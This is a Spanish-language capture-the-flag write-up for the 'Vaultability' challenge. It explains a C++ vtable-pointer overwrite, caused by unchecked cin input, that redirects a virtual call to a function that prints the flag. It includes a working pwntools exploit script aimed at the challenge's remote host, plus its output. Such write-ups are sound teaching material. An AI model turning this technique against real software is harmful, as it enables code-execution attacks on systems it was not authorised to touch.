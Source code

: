 # Vaultability

Datos:

- Nos dan el codigo fuente escrito en C++, donde hay dos objetos: Vault y BackupVault, BackupVault hereda los metodos virtuales `showSecurityLog` y `triggerAllarm` de Vault:

```
class Vault {
    char pin[16];

  public:
    virtual void enterPin() {
        cout << "Enter Vault PIN: ";
        cin >> pin;
    }
    virtual void showSecurityLog() { cout << &pin << endl; }
    virtual void triggerAlarm() { cout << "Security Breach Detected!" << endl; }
};

class BackupVault : public Vault {
    char pin[16];

  public:
    void enterPin() {
        cout << "Enter Backup Vault PIN: ";
        cin >> pin;
    }
};
```

- Entre las opciones que tenemos en el programa, podemos en ambos vaults escribir un codigo PIN de hasta 16 bytes, ver la direccion en el stack de estos valores y mostrar un mensaje de alerta:

``` c++
int menu(Vault *vault, Vault *backup) {
    cout << "1. Enter Vault PIN" << endl;
    cout << "2. View Security Log" << endl;
    cout << "3. Trigger Alarm" << endl;
    cout << "4. Enter Backup Vault PIN" << endl;
    cout << "5. View Backup Vault Log" << endl;
    cout << "6. Trigger Backup Vault Alarm" << endl;
    cout << "7. Exit" << endl;
    cout << "Enter your choice: ";

    int choice;
    cin >> choice;

    switch (choice) {
    case 1:
        vault->enterPin();
        break;
    case 2:
        vault->showSecurityLog();
        break;
```

- Existe una funcion `void secretAccess() { system("cat flag.txt"); }` , a la que debemos llegar

- La entrada de usuario se produce por el metodo `cin`, que no valida la entrada, permitiendonos escribir mas de lo esperado

- Viendo las propiedades del ejecutable, este no tiene PIE, asi que las direcciones de memoria del binario son fijas:
```
checksec --file=main
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH    Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   66 Symbols        No    0               0               main
```

## VTables 
Una VTable (tabla virtual o tabla de métodos virtuales) es un mecanismo utilizado en programación orientada a objetos, especialmente en lenguajes como C++, para implementar el polimorfismo dinámico (también llamado polimorfismo por herencia).

Es una tabla que contiene punteros a las funciones virtuales de una clase, las vtables lucen como direcciones contiguas de memoria que apuntan a los metodos virtuales:
```
 ;-- vtable.BackupVault.0:
            ; DATA XREF from BackupVault::BackupVault() @ 0x401650(r)
            0x00403d88      .qword 0x00000000004015d0 ; sym.BackupVault::enterPin__ ; method.BackupVault.enterPin__ ; method.BackupVault.virtual_0
            0x00403d90      .qword 0x0000000000401552 ; sym.Vault::showSecurityLog__ ; method.Vault.showSecurityLog__ ; method.BackupVault.virtual_8 ; method.Vault.virtual_8
            0x00403d98      .qword 0x0000000000401592 ; sym.Vault::triggerAlarm__ ; method.Vault.triggerAlarm__ ; method.BackupVault.virtual_16 ; method.Vault.virtual_16
            ;-- vtable for Vault:
            0x00403da0      .qword 0x0000000000000000                  ; vtable for Vault
[0x00403d88]> pd 5
            ;-- vtable.BackupVault.0:
            ; DATA XREF from BackupVault::BackupVault() @ 0x401650(r)
            0x00403d88      .qword 0x00000000004015d0 ; sym.BackupVault::enterPin__ ; method.BackupVault.enterPin__ ; method.BackupVault.virtual_0
            0x00403d90      .qword 0x0000000000401552 ; sym.Vault::showSecurityLog__ ; method.Vault.showSecurityLog__ ; method.BackupVault.virtual_8 ; method.Vault.virtual_8
            0x00403d98      .qword 0x0000000000401592 ; sym.Vault::triggerAlarm__ ; method.Vault.triggerAlarm__ ; method.BackupVault.virtual_16 ; method.Vault.virtual_16
```

## Corrupcion de la VTable de BackupVault
Nuestra entrada de PIN para Vault podria sobreescribir la referencia a la vtable de BackupVault, tal y como vemos en la pila:
```
0x7ffe3de66e78 0x00000000004014e7 main+71
0x7ffe3de66e80 0x0000000000403db0 vtable.Vault.0
0x7ffe3de66e88 0x0000414141414141                    <-- Entrada de usuario, "AAAAAA"
0x7ffe3de66e90 0x00000000000011ff elf_strtab+3207
0x7ffe3de66e98 0xffffffffffffffa0
0x7ffe3de66ea0 0x0000000000403d88 vtable.BackupVault.0 <-- 24 bytes despues
```

La idea es rellenar estos 24 bytes con una falsa vtable y luego sobreescribir la referencia a la direccion de la pila donde comienza nuestra falsa vtable (el punto donde comenzamos a escribir)

Gracias a que el metodo `View Security Log` de Vault nos permite saber la direccion en el stack donde se almacena nuestra entrada, podemos proceder

- Primero buscamos la direccion de `secretAccess` (que es fija porque el binario no tiene PIE), podemos hacer esto con multiples herramientas pero una que trae Linux por defecto para sacar simbolos es `nm`:
```
nm main| grep secret
00000000004011f6 T _Z12secretAccessv
```

- Luego obtenemos la direccion donde escribimos el PIN, haciendo una peticion a `View Security Log`

- Creamos nuestra carga util, con dos direcciones de relleno y una tercera apuntando a nuestra funcion secretAccess, luego la direccion que obtuvimos de `View Security Log` para reemplazar la referencia:

`carga_util =  16 bytes de cualquier cosa + 0x00000000004011f6 + direccion_de_Vault_PIN_en_el_Stack`

- Por ultimo llamamos a BackupVault_triggerAlarm, que intentara acceder a direccion_de_Vault_PIN_en_el_Stack + 16 bytes, direccion que contiene 0x00000000004011f6, por lo que se ejecutará la funcion maliciosa

## Exploit
```python
from pwn import *
elf = context.binary = ELF("./main")
#io = process('./main')
io = remote("challs.breachers.in",1339)

io.sendlineafter(b"choice: ", b"2")
fake_vtable_addr = p64(int(io.recvline().strip(),16))

fake_vtable = p64(0x41414141) + p64(0x42424242) + p64(0x004011f6)
payload = fake_vtable + fake_vtable_addr

io.sendlineafter(b"choice: ", b"1")
io.sendlineafter(b"PIN: ", payload)
# Al llamar a BackupVault_triggerAllarm esta buscara
io.sendlineafter(b"choice: ", b"6")
print(io.recv())
```

```
python3 win.py
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/kalcast/.cache/.pwntools-cache-3.12/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] A newer version of pwntools is available on pypi (4.13.1 --> 4.14.1).
    Update with: $ pip install -U pwntools
[*] '/home/kalcast/Descargas/CTF/Vaultability/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to challs.breachers.in on port 1339: Done
b'Breach{v74b13_c4113d_f4k3_func}\n'
[*] Closed connection to challs.breachers.in port 1339
```

`Breach{v74b13_c4113d_f4k3_func}`
